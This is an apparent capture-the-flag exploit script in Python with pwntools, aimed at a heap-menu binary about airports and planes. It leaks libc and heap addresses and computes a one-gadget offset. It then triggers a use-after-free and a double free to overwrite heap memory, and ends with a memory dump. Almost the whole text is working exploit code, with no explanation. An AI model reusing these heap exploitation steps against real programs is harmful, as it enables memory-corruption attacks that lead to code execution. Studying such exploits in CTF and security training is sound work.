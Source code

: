 ```python
code_base = 0x555555554000
heap_base = 0x555555757000
arrAirport = 0x202080
pHeadPlane = 0x202020
list_leak = [
	{
		"title": "heap_base",
		"addr" : heap_base,
		"size" : 0x280
	},{
		"title": "arrAirport",
		"addr" : code_base + arrAirport,
		"size" : 0x40
	},{
		"title": "pHeadPlane",
		"addr" : code_base + pHeadPlane,
		"size" : 0x40
	}
]
p = process(target)
recv = p.recv()
print recv

fn_build(0x80, "A"*8)
fn_build(0x80, "B"*8)
fn_build(0x80, "C"*8)

fn_enter_airport(0, 2)
fn_enter_airport(1, 2)

fn_buy(14, "a")
fn_select_plane("a", 1, 2)

libc_base = fn_enter_airport(2, 1, True)
libc_base = u64(libc_base[1].split("by ")[1].ljust(8, "\x00")) - 0x3c4bf8
one_shot = libc_base + 0x4526a
log.info("libc base : {}".format(hex(libc_base)))
log.info("one-shot  : {}".format(hex(one_shot)))

fn_buy(15, "b")
fn_select_plane("b", 1, 2)
addr_heap = fn_enter_airport(2, 1, True)
addr_heap = u64(addr_heap[4].split("by ")[1].ljust(8, "\x00"))
addr_heap = (addr_heap & 0xfffffffffffff000)
log.info("heap addr : {}".format(hex(addr_heap)))

fn_select_plane("a", 2) # UAF
fn_select_plane("b", 2) # UAF
fn_enter_airport(2, 2)  # double-freed

target_offset = 0x170
fn_buy(0, p64(addr_heap + target_offset - 0x38 + 0xe))
fn_buy(0, "E" * 8)
payload = "\x50" * 0x20
fn_buy(0, payload)

'''
0x559be21d4140:	0x5050505050505050	0x0050505050505050
0x559be21d4150:	0x4747000000000000	0x0000000000000000
0x559be21d4160:	0x0000559be21d4010	0x0000000000000000
0x559be21d4170:	0x0000559be18e5b7d	0x0000000000000041
0x559be21d4180:	0x00007f85e67b8b78	0x0000559be21d4240
'''
```